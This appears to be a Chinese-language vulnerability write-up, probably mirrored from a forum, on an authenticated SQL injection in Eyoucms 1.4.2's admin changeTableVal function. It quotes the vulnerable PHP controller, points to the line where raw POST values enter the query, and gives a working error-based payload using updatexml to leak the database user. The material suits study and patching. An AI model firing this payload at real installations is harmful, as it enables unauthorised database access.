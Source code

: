 # Eyoucms 1.42 后台注入

> 原文：[https://www.zhihuifly.com/t/topic/2924](https://www.zhihuifly.com/t/topic/2924)

# Eyoucms 1.4.2 后台注入

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

/application/admin/controller/Index.php

```
public function changeTableVal()
{
    if (IS_AJAX_POST) {
        $url = null;
        $data = [
            'refresh'   => 0,
        ];
        $table = input('post.table/s'); // 表名
        $id_name = input('post.id_name/s'); // 表主键id名
        $id_value = input('post.id_value/s'); // 表主键id值
        $field  = input('post.field/s'); // 修改哪个字段
        $value  = input('post.value/s', '', null); // 修改字段值  
        switch ($table) {
            // 会员等级表
            case 'users_level':
                {
                    $return = model('UsersLevel')->isRequired($id_name,$id_value,$field,$value);
                    if (is_array($return)) {
                        $this->error($return['msg']);
                    }
                }
                break;

```
 // 会员属性表
        case 'users_parameter':
            {
                $return = model('UsersParameter')-&gt;isRequired($id_name,$id_value,$field,$value);
                if (is_array($return)) {
                    $this-&gt;error($return['msg']);
                }
            }
            break;

        // 会员中心菜单表
        case 'users_menu':
            {
                Db::name('users_menu')-&gt;where('id','gt',0)-&gt;update([
                        'is_userpage'   =&gt; 0,
                        'update_time'   =&gt; getTime(),
                    ]);
                $data['refresh'] = 1;
            }
            break;

        // 会员投稿功能
        case 'archives':
            {
                if ('arcrank' == $field) {
                    if (0 == $value) {
                        $value = -1;
                    }else{
                        $value = 0;
                    }
                }
            }
            break;
        // 会员产品类型表
        case 'users_type_manage':
            {
                if (empty($value)) {
                    $this-&gt;error('不可为空');
                }
            }
            break;
        default:
            # code...
            break;
    }
    $savedata = [
        $field =&gt; $value,
        'update_time'   =&gt; getTime(),
    ];
    M($table)-&gt;where("$id_name = $id_value")-&gt;cache(true,null,$table)-&gt;save($savedata); // 根据条件保存修改的数据
    // 以下代码可以考虑去掉，与行为里的清除缓存重复 AppEndBehavior.php / clearHtmlCache
    switch ($table) {
        case 'auth_modular':
            extra_cache('admin_auth_modular_list_logic', null);
            extra_cache('admin_all_menu', null);
            break;

        default:
            // 清除logic逻辑定义的缓存
            extra_cache('admin_'.$table.'_list_logic', null);
            // 清除一下缓存
            // delFile(RUNTIME_PATH.'html'); // 先清除缓存, 否则不好预览
            \think\Cache::clear($table);
            break;
    }
    /*清除页面缓存*/
    // $htmlCacheLogic = new \app\common\logic\HtmlCacheLogic;
    // $htmlCacheLogic-&gt;clear_archives();
    /*--end*/

    $this-&gt;success('更新成功', $url, $data);
} 
``` `}` 
```

第307行：

```
M($table)->where("$id_name = $id_value")->cache(true,null,$table)->save($savedata); // 根据条件保存修改的数据 
```

直接将函数头获取的POST传入SQL语句里面：

```
$table = input('post.table/s'); // 表名
$id_name = input('post.id_name/s'); // 表主键id名
$id_value = input('post.id_value/s'); // 表主键id值
$field  = input('post.field/s'); // 修改哪个字段
$value  = input('post.value/s', '', null); // 修改字段值 
```

### 漏洞复现

payload：

```
http://0-sec.org/eyou/?m=admin&c=Index&a=changeTableVal

post: `table=admin&id_name=admin_id&id_value=‘1’//and//updatexml(1,concat(0x7e,user(),0x7e),1)` 
```

![image](img/8b8c6a3067e090557ad544f7e21fb4d1.png)

## 四、参考链接

> http://www.f4ckweb.top/index.php/archives/47/